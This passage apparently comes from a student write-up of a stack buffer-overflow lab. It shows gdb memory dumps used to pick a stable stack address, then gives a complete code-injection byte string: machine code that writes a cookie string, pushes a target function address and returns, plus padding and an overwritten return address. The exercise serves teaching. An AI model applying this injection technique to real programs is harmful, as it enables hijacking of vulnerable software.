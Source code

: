 ```
0x5561dcd8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dce0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dce8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcf0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcf8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd00:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd08:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd10:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd18:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd20:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd28:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd30:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd38:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
```

After:
```
(gdb) x/200bx 0x5561dc78
0x5561dc78:	0x00	0x11	0xc5	0x66	0x44	0xfa	0xbd	0xdb
0x5561dc80:	0x8c	0xdc	0x61	0x55	0x00	0x00	0x00	0x00
0x5561dc88:	0xe8	0x5f	0x68	0x55	0x00	0x00	0x00	0x00
0x5561dc90:	0x02	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dc98:	0x16	0x19	0x40	0x00	0x00	0x00	0x00	0x00
0x5561dca0:	0x00	0x60	0x58	0x55	0x00	0x00	0x00	0x00
0x5561dca8:	0x09	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dcb0:	0x24	0x1f	0x40	0x00	0x00	0x00	0x00	0x00
0x5561dcb8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dcc0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcc8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcd0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcd8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dce0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dce8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcf0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcf8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd00:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd08:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd10:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd18:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd20:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd28:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd30:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dd38:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
```
We can see that the memory after the address: `0x5561dcb0` are the same before and after the excuation. So, we can choose it as the location of our string.

### 3)  Write the injection code
After finding the location of the string. We can write the injection assembly code as:
```
48 c7 c7 b0 dc 61 55 48 c7 07 35 39 62 39 48 c7 47 04 39 37 66 61 68 fa 18 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00
```
